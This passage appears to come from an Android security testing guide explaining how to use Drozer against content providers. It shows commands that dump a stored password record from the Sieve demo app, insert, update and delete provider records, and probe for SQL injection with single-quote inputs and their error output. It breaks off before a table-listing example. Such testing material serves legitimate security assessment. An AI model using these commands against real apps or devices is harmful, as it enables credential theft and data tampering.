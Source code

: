 ```text
dz> run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --vertical
_id: 1
service: Email
username: incognitoguy50
password: PSFjqXIMVa5NJFudgDuuLVgJYFD+8w== (Base64 - encoded)
email: incognitoguy50@gmail.com
```

You can also use Drozer to insert, update, and delete records from a vulnerable content provider:

* Insert record

  ```text
  dz> run app.provider.insert content://com.vulnerable.im/messages
                  --string date 1331763850325
                  --string type 0
                  --integer _id 7
  ```

* Update record

  ```text
  dz> run app.provider.update content://settings/secure
                  --selection "name=?"
                  --selection-args assisted_gps_enabled
                  --integer value 0
  ```

* Delete record

  ```text
  dz> run app.provider.delete content://settings/secure
                  --selection "name=?"
                  --selection-args my_setting
  ```

#### SQL Injection in Content Providers

The Android platform promotes SQLite databases for storing user data. Because these databases are based on SQL, they may be vulnerable to SQL injection. You can use the Drozer module `app.provider.query` to test for SQL injection by manipulating the projection and selection fields that are passed to the content provider:

```text
dz> run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --projection "'"
unrecognized token: "' FROM Passwords" (code 1): , while compiling: SELECT ' FROM Passwords

dz> run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --selection "'"
unrecognized token: "')" (code 1): , while compiling: SELECT * FROM Passwords WHERE (')
```

If an application is vulnerable to SQL Injection, it will return a verbose error message. SQL Injection on Android may be used to modify or query data from the vulnerable content provider. In the following example, the Drozer module `app.provider.query` is used to list all the database tables:
